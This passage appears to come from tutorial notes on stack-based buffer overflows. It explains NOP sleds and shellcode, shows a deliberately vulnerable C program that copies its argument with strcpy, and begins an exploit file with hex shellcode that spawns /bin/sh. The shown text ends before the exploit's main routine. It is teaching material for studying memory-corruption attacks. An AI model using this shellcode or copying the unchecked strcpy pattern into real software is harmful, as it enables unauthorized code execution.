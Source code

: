 ```asm
    add     $4, %esp
    pop     %ecx
    leave
    lea     -4(%ecx), %esp
    ret
```

## Stack-based overflow

A stack overflow, or stack smashing, is a special case of buffer overflow on the stack or heap, where data can overflow allocated buffer and overwrite other memory locations, such as return address.

### NOP slide

A [NOP slide](https://en.wikipedia.org/wiki/NOP_slide), or `nop`-sled, is a sequence of do-nothing instructions used to fill stack and eventually reach a jump to some injected shellcode.

Shellcode is any code used to start a shell, such as `execve("/bin/sh")`.

### Stack-based buffer overflow attacks

Below is a program vulnerable to a buffer overflow attack using `nop`-sled and injected shellcode.

```c
/* program.c */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    /* buffer of size 512 bytes */
    char buffer[512];
    /* set all bytes in buffer to zero, no leftovers */
    memset(buffer, 0, sizeof(buffer));
    /* copy first argument to buffer without boundary check */
    if (argc > 1) {
        strcpy(buffer, argv[1]);
    }
    /* print content in buffer */
    printf("buffer@%p: %s\n", buffer, buffer);
    return 0;
}
```

Below is an exploit, where shellcode is a hexadecimal string encoding machine instructions. The shellcode can also be written in assembly and inserted into executable by compiler, `gcc -o exploit exploit.c shellcode.s` with `unsigned char code[] = ... ;` replaced by `extern char shellcode[];`.

```c
/* exploit.c */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define PROGRAM "./program"

/* shellcode */
unsigned char shellcode[] =
    "\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43"
    "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";
/* inline macro to get stack pointer */
__inline__ unsigned int get_esp(void) {
    unsigned int res;
    __asm__("movl %%esp, %0" : "=a" (res));
    return res;
}
```